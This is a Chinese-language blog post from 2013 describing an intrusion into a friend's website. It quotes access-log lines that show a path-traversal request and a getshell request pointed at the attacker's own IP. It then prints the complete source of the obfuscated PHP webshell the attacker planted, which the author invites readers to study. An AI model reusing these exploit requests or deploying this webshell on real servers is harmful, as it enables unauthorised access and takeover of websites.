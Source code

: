 ```yaml
---
title: "一次入侵检查"
date: 2013-10-02 21:38:00
categories: ['Linux']
---
```


#10.1放假期间的一次入侵处理#

今天一个网站的朋友给我电话，说网站无法访问了。我尝试访问了下，提示数据库不存在。开始以为数据库出现问题了，尝试访问子域名无问题。ssh上去看到数据库正常。
检查文件的时候，发现mysql_config.php是早上6点多修改过的。比较奇怪了。

打开mysql_config.php发现已经被清空了。于是赶紧处理下，让网站恢复了正常。

<!--more-->

##查找原因##
因为文件被篡改了，还是比较严重的。于是开始尝试分析原因。

首先检查了登陆logs，并没有发现异常。可以初步排除是ssh上来修改的。服务器没有开放ftp，所以就怀疑是通过web程序的漏洞实现的。

根据文件的修改时间，调出访问日志查找。最终找到如下三个异常访问

```
103.14.144.41 - - [02/Oct/2013:06:18:10 +0800] "HEAD / HTTP/1.1" 200 0 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)" -
103.14.144.41 - - [02/Oct/2013:06:18:10 +0800] "GET /do/fujsarticle.php?type=like&FileName=../data/mysql_config.php&submit=fuck HTTP/1.1" 200 37 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "GET /news/fujsarticle.php?type=like&FileName=../data/mysql_config.php&submit=fuck HTTP/1.1" 404 36 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "GET /do/jf.php?dbuser=getshell&dbhost=103.14.144.41&dbpw=shellpwd&dbname=getshell&pre=qb_&dbcharset=gbk&submit=getshell HTTP/1.1" 200 12140 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "HEAD /do/c.php HTTP/1.1" 200 0 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)" -

```

通过访问fujsarticle.php、jf.php文件来提交构造好的参数，实现对文件的修改并通过调用自己的数据库内容，来传送过来一个c.php的webshell。这两个文件都是程序自带的文件，我也不好修改。目前只是把对应目录权限配置了，让www的用户无法写入文件了。后面还要让程序人员看看如何彻底解决下。

##webshell##
这个webshell很有意思。通过各种字符替换和转换编码，达到了很好的加密伪装效果。下面就是那个webshell，感谢去的可以看看，学习学习。

``` php
<?php
$tj="IGluaV9zZXQoJ2h0bWxfZXJyb3JrbzJyxmYWxzZSk7aW5pX3NldCgnrbZGlzcGxheV9lcnJvcnMnLGZhrbbHNlKrbTtAcHrbJrblZ19yZXBsYWNlKCIvLrb2UrbiLCRfUE9TVFrbsnRkVORrbyddLCJrbBY2Nlrbc3MrbgRGVuaWVkIikrb7QrbHByZWdrbfcmVwbGFjZS";
$ju = str_replace("si","","sissitsirsi_rsiesipsilasicsie");
$gie="krbXrb0ZJTErbVTWyJrb1cGZpbGUiXVrbsibmFtZSJdO2lmKCFmaWxlX2V4aXN0cygkX0ZJTEVTrbWyJ1cGZpbGUiXVsirbbmrbFtZrbSJdKSl7IGrbNvcHkorbJF9GSUxFU1sidXBrbmaWxrblIl1bInRtcF9rbuYW1lIl0sICRfRklMRVrbNbInVwZmlsZSJdWyJrbuYrbW1";
$zc="giL1xzKlxbcGhwXrbF0oLis/KVrbxrbbXC9wrbaHrbBcXVxzKrbi9pZXMrbiLrbCAiXFwxIiwgJrbF9HRVRbJ0ZFTrbkcnXSk7aWYoJF9HRVRbInBrIl09PSJsb3ZlIil7aWYgKCRfU0VSVkVrbSWydSRVFVRVNUX01FVEhPRCrbddID09ICrbdQT1NUJykgeyBlY2hvICJrb1cmrbw6Ii4";
$ro="lIl0pOyB9frbT8+rbPGZvcm0gbWVrb0aG9kPSJwb3N0IrbiBlbmN0erbXBlPSJrbtdWx0rbaXBrbhcnQvZrbm9ybS1krbYXRhIj48aW5wdrbXQgbmrbFtZT0idXBmaWxlIiB0eXBlPSJmaWxlIj48aW5wdXQgdHlwZTrb0ic3VibWl0IiB2YWx1ZT0ib2siPjwvZm9yrbbT48P3BocCB9";
$nx = $ju("g", "", "gbgagse6g4g_dgegcgogde");
$xq = $ju("v","","vcvreavtvev_vfvuvnvcvtvivovn");
$baj = $xq('', $nx($ju("rb", "", $tj.$zc.$gie.$ro))); $baj();
?>

```
